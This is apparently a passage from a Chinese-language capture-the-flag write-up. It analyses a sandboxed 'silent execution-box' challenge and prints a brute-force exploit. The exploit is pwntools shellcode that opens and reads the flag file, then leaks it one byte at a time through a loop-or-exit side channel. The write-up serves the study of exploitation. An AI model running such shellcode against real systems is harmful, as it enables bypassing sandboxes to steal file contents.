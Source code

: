 [![](assets/1703640353-75b3b3ae20712e38f178c3fe46d49763.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191659-1eca9a86-a317-1.png)  
这里就是用 mmap 去申请 0x1000 的空间，然后设置了沙箱，read 只允许读入 0x40 大小的数据

[![](assets/1703640353-a8efaf8a5c12261ce8cea999eefce268.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191713-273453ba-a317-1.png)  
本地运行一下发现基本上就是直接执行输入的东西  
然后我们分析一下现在流传的爆破脚本

```bash
def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
        mov r12,0x67616c66
        push r12
        mov rdi,rsp
        xor esi,esi
        xor edx,edx
        mov al,2
        syscall
        mov rdi,rax
        mov rsi,0x10700
        mov dl,0x40
        xor rax,rax
        syscall
        mov dl, byte ptr [rsi+{}]
        mov cl, {}
        cmp cl,dl
        jz loop
        mov al,60
        syscall
        loop:
        jmp loop
        '''.format(dis,char))
```